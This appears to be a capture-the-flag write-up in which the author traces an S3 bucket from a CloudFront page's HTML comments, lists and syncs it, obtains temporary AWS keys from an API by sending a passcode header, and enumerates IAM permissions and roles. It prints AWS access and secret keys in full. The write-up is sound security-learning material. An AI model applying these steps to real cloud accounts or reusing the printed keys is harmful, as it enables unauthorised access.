 # Level 4B

![image](https://user-images.githubusercontent.com/82754379/188318980-32cbdff8-6a92-4a03-8d34-ff9fd8a4d0d7.png)

Heading over to the given URL at https://d20whnyjsgpc34.cloudfront.net/ I saw a page with (six) cat pictures:

![image](https://user-images.githubusercontent.com/82754379/188319697-22cd6b07-2594-4812-a149-74ed2375fe5d.png)


The source code for the web page revealed what could be clues:
```html
    <!-- Passcode -->
    <h1 class="mb-3">Cats rule the world</h1>
    <!-- Passcode -->
    <!-- 
      ----- Completed -----
      * Configure CloudFront to use the bucket - palindromecloudynekos as the origin
      
      ----- TODO -----
      * Configure custom header referrer and enforce S3 bucket to only accept that particular header
      * Secure all object access
    -->
```


## S3 Bucket

The clue indicated that there was an S3 bucket named "palindromecloudynekos", so I tried to access it within the browser at the URL "palindromecloudynekos.s3.amazonaws.com" and got an "Access Denied" result:

![Screenshot from 2022-09-05 00-23-26](https://user-images.githubusercontent.com/82754379/188323431-f0a06d2a-65de-45fc-9232-a8447d61cd75.png)

Reading through the write-ups for other S3-related Capture-The-Flag (CTF) challenges, I found that it may be possible to access the S3 bucket as long as I use an authenticated AWS account.

So, I signed up for an AWS account in the free tier and installed the AWS Command Line Interface (CLI), following the instructions in the online AWS documentation: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-prereqs.html .

After creating a new "Administrator" user and its access keys, I configured the AWS CLI:
```
$ aws configure

AWS Access Key ID [None]: AKIARIXBOXQJ742N6JWC
AWS Secret Access Key [None]:  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
Default region name [None]: ap-southeast-1
Default output format [None]: json
```

Next I used the authenticated account to list the contents of the given S3 bucket:
```
$ aws s3 ls s3://palindromecloudynekos

                           PRE api/
                           PRE img/
2022-08-23 21:16:20         34 error.html
2022-08-23 21:16:20       2257 index.html
```

To make things easier, I mirrored the contents of the S3 bucket to a local directory on my machine:
```
$ aws s3 sync s3://palindromecloudynekos .

download: s3://palindromecloudynekos/api/notes.txt to api/notes.txt
download: s3://palindromecloudynekos/error.html to ./error.html 
download: s3://palindromecloudynekos/index.html to ./index.html 
download: s3://palindromecloudynekos/img/photo3.jpg to img/photo3.jpg
download: s3://palindromecloudynekos/img/photo2.jpg to img/photo2.jpg
download: s3://palindromecloudynekos/img/photo5.jpg to img/photo5.jpg
download: s3://palindromecloudynekos/img/photo4.jpg to img/photo4.jpg
download: s3://palindromecloudynekos/img/photo6.jpg to img/photo6.jpg
download: s3://palindromecloudynekos/img/photo1.jpg to img/photo1.jpg
```

The file **api/notes.txt** gave some clues:
```
$ cat api/notes.txt

# Neko Access System Invocation Notes

Invoke with the passcode in the header "x-cat-header". The passcode is found on the cloudfront site, 
all lower caps and separated using underscore.

https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

All EC2 computing instances should be tagged with the key: 'agent' and the value set to your username. 
Otherwise, the antivirus cleaner will wipe out the resources.
```

The given URL must be accessed with an HTTP GET request with the correct header in order to obtain the next clue:
```
$ curl -H "x-cat-header: cats_rule_the_world" https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

{"Message": "Welcome there agent! Use the credentials wisely! It should be live for the next 120 minutes! 
  Our antivirus will wipe them out and the associated resources after the expected time usage.", 
"Access_Key": "AKIAQYDFBGMS4XGUWZVT", 
"Secret_Key": "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"}
```

Each new GET request to the same URL seemed to obtain a different pair of values for **Access_Key** and **Secret_Key**.


## Access Key and Secret Key

I stored the new set of credentials under a different profile and prepared to work with it:
```
$ aws configure --profile tisc

$ aws configure --profile tisc
AWS Access Key ID [None]: AKIAQYDFBGMS4XGUWZVT
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-1
Default output format [None]: json

$ export AWS_PROFILE=tisc
```

I installed [enumerate-iam.py](https://github.com/andresriancho/enumerate-iam) from Github and used it to identify the permissions that the given credentials possessed:
```
$ ./enumerate-py.iam --access-key AKIAQYDFBGMS4XGUWZVT --secret-key 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
```

One of the things I could do was to list the IAM roles:
```
$ aws iam list-roles
```

A few roles stood out:

- ec2_agent_role
- lambda_agent_development_role
- lambda_agent_webservice_role
- lambda_cleaner_service_role

The previous talked about tagging EC2 compute instances, so I may have to create a new instance, rather than just accessing an existing one.
The *lambda*-related roles suggest I may have to work with AWS lambda functions.



